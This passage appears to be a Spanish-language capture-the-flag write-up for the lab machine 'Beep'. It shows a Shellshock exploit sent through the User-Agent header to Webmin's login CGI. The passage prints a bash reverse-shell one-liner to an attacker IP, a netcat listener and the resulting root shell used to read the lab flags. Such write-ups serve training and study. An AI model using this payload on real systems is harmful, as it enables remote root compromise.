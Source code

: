 Ahora podríamos lanzarnos una reverse. Escribiré la siguiente línea de reverse shell en bash; `bash -i >& /dev/tcp/10.10.14.23/443 0>&1`. No hará falta el *bash -c* porque se supone que ya ejecuta el comando desde bash/shell (shellsock). Y me pondré en escucha claro.

```sh
❯ nc -nlvp 443
listening on [any] 443 ...
```

Y añado la reverse en el *User-Agent* en solicitud del Burpsuite:

```plaintext
POST /session_login.cgi HTTP/1.1
Host: 10.10.10.7:10000
Cookie: testing=1
User-Agent: () { :; }; bash -i >& /dev/tcp/10.10.14.23/443 0>&1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://10.10.10.7:10000/session_login.cgi
... SNIP ...

page=%2F&user=admin&pass=admin
```

Y estamos dentro, y como root:

```sh
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.7] 36824
bash: no job control in this shell
[root@beep webmin]# whoami
root
[root@beep webmin]#
```

En este punto podemos hacer el tratamiento o coger las flagas ya -pongo asteriscos en el valor de las flags para que nadie copie-:

```sh
[root@beep webmin]# cd /home
[root@beep home]# ls
fanis
spamfilter
[root@beep home]# cd fanis
[root@beep fanis]# ls
user.txt
[root@beep fanis]# cat user.txt
bccba9c97f21b9455098*****
[root@beep fanis]# cat /root/root.txt   
ad6ef199cb2d70ed9dd0*******
[root@beep fanis]#
```
Esta sería la forma de explotar la caja mediante **shellshock**.
